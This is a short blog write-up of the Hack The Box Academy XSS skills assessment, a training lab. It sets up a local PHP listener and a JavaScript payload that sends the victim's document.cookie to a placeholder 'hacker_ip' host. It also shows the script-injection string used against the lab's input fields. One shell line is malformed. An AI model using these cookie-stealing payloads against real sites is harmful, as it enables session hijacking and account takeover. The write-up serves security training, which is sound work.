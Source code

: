 ```yaml
---
title: 'HTB Academy: Cross-Site Scripting (XSS)'
author: saramazal
date: 2024-11-08
categories: [HTB Academy]
tags: [HackTheBox Academy, Skills Assessment, cbbh, cpts, xss, tmpserver, Session Hijacking ]     # TAG names should always be lowercase
img_path: /images/htb-academy/
image:
  path: images/htb-academy/xss.png
---
```




## [HTB Academy: Cross-Site Scripting (XSS) Module](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss)
### Skills Assessment
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`.
In our Web Application Penetration Testing plan, we reached the part 
where you must test the web application against Cross-Site Scripting 
vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

## Questions:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag.

## Answers:
### First, let's create a server on our machine and prepare a payload for testing input fields on the target site.
```bash
mkdir /tmp/tmpserver
```

```bash
cd /tmp/tmpserver
```

```bash
nano myscript.js > new Image().src='http://hacker_ip:3333/index.php?c='+document.cookie;
```

```bash
nano index.php
```

![php-code](/images/htb-academy/php-code.png)

## Let's start your server

```bash
sudo php -S 0.0.0.0:3333
```

### Now let's test the input fields on the target site:

```bash
"><script src=http://hacker_ip:3333/myscript.js></script>
```

![inputs](/images/htb-academy/inputs.png)
![php-server](/images/htb-academy/php-server.png)

### Great, it works!

### Let's check our cookie file.

![cookie](/images/htb-academy/cookie.png)

## Happy Hacking!


[![XSS Badge](/images/htb-academy/xss-badge.png){: width="600" height="auto" .shadow }](https://academy.hackthebox.com/achievement/badge/1e195a3e-ef45-11ee-b18d-bea50ffe6cb4)


[My HTB Academy unique referral link >](https://referral.hackthebox.com/mzyGKZb)

